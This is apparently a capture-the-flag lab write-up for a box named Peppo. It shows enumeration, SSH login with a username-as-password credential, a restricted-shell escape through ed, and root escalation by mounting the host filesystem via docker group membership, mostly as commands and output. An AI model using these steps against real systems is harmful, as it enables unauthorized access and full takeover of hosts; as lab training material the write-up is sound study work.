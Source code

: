 # Peppo

### Enumeration

```
10000/tcp open   snet-sensor-mgmt?
|_auth-owners: eleanor
```

### Initial Access

```
$ ssh eleanor@192.168.189.60
eleanor:eleanor

-rbash: cat: command not found
eleanor@peppo:~$ ls bin
chmod  chown  ed  ls  mv  ping  sleep  touch
```

#### Escaping restricted shell

[https://gtfobins.github.io/gtfobins/ed/](https://gtfobins.github.io/gtfobins/ed/)

```
$ ed
!/bin/sh
```

```
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
$ python -c 'import pty; pty.spawn("/bin/bash")'
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```

### PrivEsc

Eleanor is in docker group.

```
$ docker images
redmine             latest              0c8429c66e07        18 months ago       542MB
postgres            latest              adf2b126dda8        18 months ago       313MB
```

```
eleanor@peppo:/$ docker run -v /:/mnt --rm -it redmine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root)
```
